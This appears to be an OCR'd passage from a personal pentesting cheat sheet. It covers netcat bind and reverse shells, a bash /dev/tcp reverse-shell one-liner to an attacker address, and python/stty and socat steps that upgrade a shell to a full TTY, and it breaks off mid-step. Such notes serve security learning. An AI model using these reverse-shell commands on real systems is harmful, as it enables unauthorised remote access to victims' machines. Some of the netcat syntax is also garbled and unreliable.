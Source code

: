    ```bash


  ## Using Netcat for a bind shell
     Attacker's Host: nc <IP> <port> # makes connection to remote machine (looks for machine with that IP and has that port opened and makes a connection to it)
     Remote Machine: nc -nvlp <IP> # listens for connection (waits for someone to connect to its machine through that port)
  ## Using Netcat for a reverse shell
      Attacker's Host: nc -nlvp <PORT> # The attacker waits for the host to connect to its own machine , in this case its the one listening for connection)
      Remote Machine: nc <IP> <PORT> # Remote machine has the IP address of the attacker and makes connection to it ( well the attacker has a static IP that wont be chabging anytime soon)
      Or :bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    
 PS: Only netcat is mentioned here , there are tons of tools to make reverse connection [check payloadallthethings for reverse shell with other tools ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
     

### Shell Codes
  Describe code executed by a target program due to a vulnerability exploit and used to open a remote shell 
  

### Upgrading Simple Shells to Fully Interactive TTYs
using python

  on victim:
    ``` 
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    (press on your keyboard) Ctrl+Z

    (press on your keyboard) Enter

   on your local host: stty raw -echo

   on your local host:
   
      fg (you will not see your keystrokes -- trust yourself and hit Enter)

      (press on your keyboard) Enter

      (press on your keyboard) Enter

   on the victim: 
   
      export TERM=xterm

  
    
 using socat:
 on host(attacker):
 ```bash
    socat file:`tty`,raw,echo=0 tcp-listen:4444
 ``` 
 on victim :
